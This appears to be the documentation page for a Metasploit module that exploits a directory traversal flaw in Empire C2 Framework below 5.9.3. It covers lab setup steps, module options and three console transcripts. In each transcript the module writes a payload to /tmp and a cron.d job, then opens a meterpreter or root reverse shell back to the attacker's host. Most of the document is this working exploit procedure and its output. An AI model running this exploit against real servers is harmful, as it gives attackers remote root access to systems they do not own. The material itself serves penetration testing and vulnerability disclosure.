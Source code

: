 ## Vulnerable Application
This module exploits a directory traversal vulnerability in Empire C2 Framework (<5.9.3) and
writes the payload to /tmp/ directory followed by a cron.d file to execute the payload.

The vulnerability affects:

    * Empire C2 Framework (<5.9.3)

This module was successfully tested on:

    * Empire C2 Framework (v5.9.2) on Kali Linux 6.6.15
    * Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15


### Install and run the vulnerable Empire
1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Empire docker container (<5.9.3) in your VM.
   `docker pull bcsecurity/empire:v5.9.2`
4. Run the server and the client on the same VM.
5. Run the server.
`docker run -it --net="host" -v /tmp:/tmp -v /etc/cron.d:/etc/cron.d bcsecurity/empire:v5.9.2`
(`--net="host" -v /tmp:/tmp -v /etc/cron.d:/etc/cron.d` is not realistic but for simplicity.)
5. Run the client.
`docker run -it --net="host" bcsecurity/empire:v5.9.2 client`
5. Execute Empire listener on client.
```bash
uselistener http
set Host <rhost>
set Port <port>
execute
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/empire_skywalker`
4. Do: `set rhost <rhost>`
5. Do: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Do: `run`
8. Have the generated request processed by a vulnerable version of Empire
9. You should get a shell or meterpreter


## Options

### STAGE_PATH (required)

This is the Empire's default staging path. Default is `login/process.php`.
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))

### PROFILE (required)

This is the Empire's default communication profile agent. Default is `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`
([reference](https://github.com/BC-SECURITY/Empire/blob/8aca42747da6cf2b0def7edede94586f6b3258e8/empire/server/common/agents.py#L169))


## Scenarios
### Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 0, port 80)
```
msf6 > use exploit/linux/http/empire_skywalker
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > set rhost 192.168.56.7
rhost => 192.168.56.7
msf6 exploit(linux/http/empire_skywalker) > set rport 80
rport => 80
msf6 exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.7:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/NYLkIKRK
[*] Writing cron job to /etc/cron.d/AeVTTPiZ
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (24772 bytes) to 192.168.56.7
[+] Deleted /etc/cron.d/AeVTTPiZ
[+] Deleted /tmp/NYLkIKRK
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:48026) at 2024-07-20 11:32:03 +0900
[!] This exploit may require manual cleanup of '/var/lib/powershell-empire/empire/server/downloads/LML47FWS/agent.log' on the target

meterpreter > sysinfo
Computer        : kali
OS              : Linux 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
```

### Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 1, port 8080)
```
msf6 > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf6 exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/empire_skywalker) > set target 1
target => 1
msf6 exploit(linux/http/empire_skywalker) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf6 exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/jJzYkeKV
[*] Writing cron job to /etc/cron.d/nFnFIbim
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (36 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/nFnFIbim
[+] Deleted /tmp/jJzYkeKV
[!] Tried to delete /var/lib/powershell-empire/empire/server/downloads/WV9TEJTE/agent.log, unknown result
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:42068) at 2024-07-20 14:40:09 +0900

whoami
root
```

### Empire C2 Framework (v5.9.2) installed with Docker on Kali Linux 6.6.15 (target 2, port 8080)
```
msf6 > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf6 exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/empire_skywalker) > set target 2
target => 2
msf6 exploit(linux/http/empire_skywalker) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf6 exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/qxlOSIYF
[*] Writing cron job to /etc/cron.d/ugrYIJzf
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (38 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/ugrYIJzf
[+] Deleted /tmp/qxlOSIYF
[!] Tried to delete /var/lib/powershell-empire/empire/server/downloads/JJR8EMKK/agent.log, unknown result
[*] Command shell session 4 opened (192.168.56.1:4444 -> 192.168.56.6:46040) at 2024-07-20 14:44:09 +0900

whoami
root
```
